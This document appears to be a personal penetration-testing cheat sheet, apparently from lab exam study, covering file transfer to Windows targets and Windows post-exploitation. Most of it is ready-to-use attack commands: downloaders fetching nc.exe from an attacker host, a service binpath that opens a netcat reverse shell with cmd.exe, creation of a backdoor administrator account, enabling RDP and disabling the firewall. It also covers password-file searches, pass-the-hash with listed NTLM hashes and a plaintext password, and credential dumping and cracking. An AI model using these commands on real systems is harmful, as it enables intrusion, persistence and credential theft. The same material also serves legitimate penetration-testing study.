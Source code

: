 
## File Transfer
Below methos can be used to transfer files..

## Transferring Files to Windows	## 
-**Running Webserver on Kali**
```
python -m SimpleHTTPServer 8080	
```
-**Transfer with Netcat**
```
//Kali
nc -lvp 1234 > zeroday.txt
//Win 
nc 192.168.0.114 1234 < zero-day.txt
```
ref: https://blog.ropnop.com/transferring-files-from-kali-to-windows/

-**TFTP** <br />
If target has tftp running, you can easily check it by typing tftp on windows cmd. 
Starting tftp service : 
```
atftpd --daemon --port 69 /tftp 
/etc/init.d/atftpd restart
cd /srv/tftp
cp /var/www/html/nc.exe .
```

```
//transfer nc.exe  
tftp -i 10.11.0.42 GET nc.exe
//PUT
tftp -i 10.11.0.42 PUT test.txt
```

-**FTP** <br />
Setup FTP service by downloading pyftp library 
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
You can also automate ftp process by creating ftp.txt
```
echo open 10.11.0.42>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get nc.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```

cf.	Setting FTP
```sh
groupadd ftpgroup 
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome 
pure-pw mkdb 
cd /etc/pure-ftpd/auth/ 
ln -s ../conf/PureDB 60pdb 
mkdir -p /ftphome 
chown -R ftpuser:ftpgroup /ftphome/ 
/etc/init.d/pure-ftpd restart
```

```
root@kali:~# chmod 755 setup-ftp 
root@kali:~# ./setup-ftp 
Password: 
Enter it again: 
Restarting ftp server
```

-**Creating VBscript** <br />
wget.vbs * VBScript  (eg. in Windows XP, 2003) 
```sh

echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```
**Usgage**  : ```cscript wget.vbs http://10.11.0.42/wget.exe wget.exe```


-**PowerShell-** (in Windows 7, 2008, and above) 	 <br />
wget.ps1
```sh
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.42/nc.exe" >>wget.ps1 
echo $file = "nc.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 
```
**Usgage**  : ```powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1```


# Post Exploit - Windows	
 
- **Checking OS Details** 
```
systeminfo 
findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

- **64 or 86 Checking** 
```
wmic os get osarchitecture
```
or check "System Files" like belows 
```
//C:\Windows\System32\license.rtf for Windows 7. 
//C:\Windows\System32\eula.txt for Windows XP
cd "C:/WINDOWS/inf/layout.inf" && cat layout.inf |grep productname
```

System32        C:\Windows\System32        Windows System folder (system directory) for 64-bit files<br />
SysWOW64        C:\Windows\SysWOW64        Windows System folder (system directory) for 32-bit files<br />

ref : http://www.samlogic.net/articles/32-64-bit-windows-folder-x86-syswow64.htm<br />

- **Find Sensitive Files** <br />
```
findstr /si password *.xml *.ini *.txt
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /spin ""password"" *.*"
```

- **Adding Local User** <br />
```
net user susu gothacked /add
net localgroup Administrators susu /add
```
If target has RDP service running, you may able to RDP into target; ```rdesktop -u susu -p gothacked 10.11.1.31```

- **Enable RDP service on Target** <br />
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
NET LOCALGROUP "Remote Desktop Users" robert /ADD
NET LOCALGROUP "Remote Desktop Users" susu /ADD
```
If target has RDP service running, you may able to RDP into target; ```rdesktop -u susu -p gothacked 10.11.1.31```

- **AccessChck** <br />

accesschk.exe <br />
*ref Guide* : http://www.fuzzysecurity.com/tutorials/16.html	<br />
Old version : https://xorcat.net/assets/other/Accesschk.zip	<br />
https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula/	<br />
Usage :``` accesschk.exe -qwsu "Users"" *``` 

- **SC Config** <br />
```sh
sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.45 7878 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config ssdpsrv start= demand
``` 


- **Pass The Hash** <br />
ref 
https://xapax.gitbooks.io/security/content/pass_the_hash_-_reusing_hashes.html?q=
https://www.kali.org/penetration-testing/passing-hash-remote-desktop/

1. put the hash in the environment variable with export command
```sh
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e
```
2. authenticate SMB's cred
```
pth-winexe -U Administrator% //10.11.1.220 cmd
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE
pth-winexe -U Administrator% //10.11.1.49 cmd
```

1. RDP with Hash value <br />
```sh
xfreerdp /u:"kevin" /d:master.thinc.local /pth:aad3b435b51404eeaad3b435b51404ee:aef3d57f355a02297fc386630a01449e /v:10.11.1.220
password : !QW@3er45t

xfreerdp /u:"administrator" /d:master.thinc.local /pth:aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e /v:10.11.1.220
password : (gotta set the password after passing the smb hash)
```

2. SMB export hash value<br />
```sh
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e
pth-winexe -U Administrator% //10.11.1.220 cmd
```

- **Disable Firewall** <br />
Disable Windows firewall on newer versions:  
```netSh Advfirewall set allprofiles state off```
Disable windows firewall on older windows: 
```netsh firewall set opmode disable```


- **After Exploit(SysAdmin)** <br />
Dump pwd : fgdump.exe 

- **Pass The Hash** <br />
NTLM Decrypt	
```john ./pwlist.txt --format=nt --wordlist=/pentest/passwords/wordlists/rockyou.txt```
ref : http://www.madhur.co.in/blog/2011/09/18/crackresetwindows.html && https://hashkiller.co.uk/ntlm-decrypter.aspx

PsExec : https://pinkysplanet.net/escalating-privileges-in-windows-with-psexec-and-netcat/

- **Cross-compiling** <br />
-- 1. Install pyinstaller of windows with wine on Kali and run `pyinstaller` located under the same directory as Python scripts
```
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py 
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile HelloWorld.py 
```
-- 2. Execute with wine
```wine ~/.wine/drive_c/dist/HelloWorld.exe```
